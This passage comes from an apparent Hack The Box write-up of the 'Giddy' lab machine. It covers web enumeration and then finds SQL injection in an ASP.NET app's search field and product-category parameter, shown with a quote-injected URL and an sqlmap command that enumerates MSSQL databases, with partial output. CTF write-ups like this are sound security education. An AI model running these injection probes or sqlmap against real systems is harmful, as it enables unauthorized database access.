 ```
/remote (Status: 302)
=====================================================
2018/09/08 15:03:13 Finished
=====================================================
```

**Main page**

The main page has nothing interesting on it, just some image of a dog.

![](/assets/images/htb-writeup-giddy/dog.png)

**/remote**

The `/remote` URI contains a Windows PowerShell Web Access interface which we'll use later.

![](/assets/images/htb-writeup-giddy/remote1.png)

**/mvc**

The `/mvc` URI is some generic demonstration ASP.NET page with a database backend. We can register a new user but there's nothing interesting we can do with a user vs. an anonymous ession. The web application simply lists products from the database. There's also a search function that we can use to look in the database.

![]/assets/images/htb-writeup-giddy/(mvc1.png)

![](/assets/images/htb-writeup-giddy/mvc2.png)

The 1st SQL injection point is the search field since we can trigger an SQL error with a single quote.

![](/assets/images/htb-writeup-giddy/mvc3.png)

The 2nd SQL injection point is the GET parameter field in the product category, we can trigger an SQL error with a single quote also.

GET: `https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18%27`

![](/assets/images/htb-writeup-giddy/mvc4.png)

SQLmap can be used to enumerate the database contents:

```
root@darkisland:~# sqlmap -u https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=1 --dbms=mssql --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 19:46:05

[19:46:05] [INFO] testing connection to the target URL
[19:46:05] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[19:46:05] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS/IDS
do you want sqlmap to try to detect backend WAF/IPS/IDS? [y/N] 
[19:46:07] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[19:46:07] [INFO] testing if the target URL content is stable
```